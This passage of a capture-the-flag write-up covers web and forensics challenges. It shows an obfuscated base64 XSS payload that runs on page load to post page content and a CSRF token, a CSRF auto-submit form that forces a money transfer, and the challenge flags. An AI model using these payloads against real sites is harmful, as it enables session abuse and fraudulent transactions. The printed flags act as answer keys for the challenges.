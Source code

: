 To bypass the javascript filter, I'll use the following html:

```html
<body onload="eval(atob('dmFyIHo9bmV3IFhNTEh0dHBSZXF1ZXN0KCk7Cnoub3BlbignR0VUJywgJy8nLCBmYWxzZSk7Cnouc2VuZChudWxsKTsKdmFyIHQ9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgiZGl2Iik7CnQuaW5uZXJIVE1MID0gei5yZXNwb25zZVRleHQ7Cnoub3BlbignUE9TVCcsZG9jdW1lbnQuVVJMLHRydWUpOwp6LnNldFJlcXVlc3RIZWFkZXIoJ0NvbnRlbnQtdHlwZScsJ2FwcGxpY2F0aW9uL3gtd
3d3LWZvcm0tdXJsZW5jb2RlZCcpOwp6LnNlbmQoJ3Jlc3BvbnNlPScrYnRvYSh0LnRleHRDb250ZW50LnJlcGxhY2UoL1xzXHMrL2csJyAnKSkrJyZjc3JmX3Rva2VuPScrZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImNzcmZfdG9rZW4iKS52YWx1ZSk7Cg=='))">
```

And you'll get the flag:

```sh
Hide the flag "BEtter_BUT_ST!LL_N0tttttttttt++Prfct!" a little bit better
```

# UpCredit 

Another webapp. In it, a form to send money (but you don't get any), an a contact form. By studying the contact form, you can send a link to the advisor browser. You just need to send a form with some auto-submit (there is no CSRF protection):

```html
<html>
<head></head>
<body onload="javascript:document.forms[0].submit()">
<form method="POST" action="http://upcredit4.chall.malicecyber.com/transfer" id="form" name="form">
  <input type="hidden" id="account" name="account" value="9yDbRkzeg">
  <input type="hidden" id="amount" name="amount" value="1000">
  <button type="submit" id="reg-submit">Send</button>
</form>
</body>
</html>
```

You'll get 1000€, you can buy the flag: `W1nG4rD1um\L3v1os444!`.


# Server Room

In this one, you've got a somewhat big image file, called `found_in_server_room.img.gz`. No surprise, it is a disk dump:

```sh
# file found_in_server_room.img 
found_in_server_room.img: DOS/MBR boot sector; partition 1 : ID=0xc, start-CHS (0x40,0,1), end-CHS (0x3ff,3,32), startsector 8192, 524288 sectors; partition 2 : ID=0x83, start-CHS (0x3ff,3,32), end-CHS (0x3ff,3,32), startsector 532480, 3072000 sectors

# fdisk -l found_in_server_room.img 
Disk found_in_server_room.img: 1.72 GiB, 1845493248 bytes, 3604479 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x907af7d0

Device                    Boot  Start     End Sectors  Size Id Type
found_in_server_room.img1        8192  532479  524288  256M  c W95 FAT32 (LBA)
found_in_server_room.img2      532480 3604479 3072000  1.5G 83 Linux
```
